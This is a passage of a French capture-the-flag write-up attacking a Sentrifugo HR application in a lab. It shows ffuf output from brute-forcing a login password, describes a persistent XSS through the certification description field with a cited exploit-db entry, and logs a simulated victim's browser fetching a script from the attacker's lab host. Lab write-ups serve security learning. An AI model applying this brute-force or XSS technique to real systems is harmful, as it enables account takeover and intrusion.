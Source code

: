 ```console
 :: URL              : http://192.168.56.193/sentrifugo/index.php/index/loginpopupsave
 :: Wordlist         : FUZZ: fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words-lowercase.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=37cuh43794lud5gm9jrajmtel4
 :: Data             : username=chuck%40localhost.com&password=FUZZ125
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 1974
________________________________________________

helicopter              [Status: 200, Size: 66009, Words: 8823, Lines: 1360]
help1                   [Status: 200, Size: 65997, Words: 8823, Lines: 1360]
haendlerbereich         [Status: 200, Size: 65997, Words: 8823, Lines: 1360]
help_center             [Status: 200, Size: 65997, Words: 8823, Lines: 1360]
her                     [Status: 200, Size: 65997, Words: 8823, Lines: 1360]
haendlersuche           [Status: 200, Size: 65997, Words: 8823, Lines: 1360]
haha                    [Status: 200, Size: 65997, Words: 8823, Lines: 1360]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

En revanche il faut stopper l'attaque dès que ça réussi sans quoi les requêtes sont effectuées en authentifiées et nous seront noyés sous l'output.

Quand on recherche *Sentrifugo* sur *exploit-db* on trouve deux exploits écrits par l'auteur du CTF.

Le premier concerne une faille XSS. Il faut aller dans le profil de l'utilisateur pour gérer ses certifications et placer un tag HTML `script`. Le message qu'on a vu plus tôt est un indice que l'exploitation est simulée :

> Make sure to enter in the descrption of your CISSP under Training & Certificate Details since you mentioned you have it.
> 
> I will be checking that section often as I need to fill out related paperwork.

L'exploit est assez compliqué, car il faut disposer de différentes valeurs qui doivent être valides et on ne voit pas où est défini le mot de passe dans l'exploit.

[Sentrifugo 3.2 - Persistent Cross-Site Scripting - PHP webapps Exploit](https://www.exploit-db.com/exploits/47324)

J'ai pu vérifier qu'un browser simulait la présence d'une autre personne :

```http
GET /index.js HTTP/1.1
Accept: */*
Referer: http://192.168.56.193/sentrifugo/index.php/trainingandcertificationdetails/viewpopup/id/1/unitId/3/popup/1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_5) AppleWebKit/537.4 (KHTML, like Gecko) Chrome/22.0.1229.94 Safari/537.4
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: 192.168.56.1
```
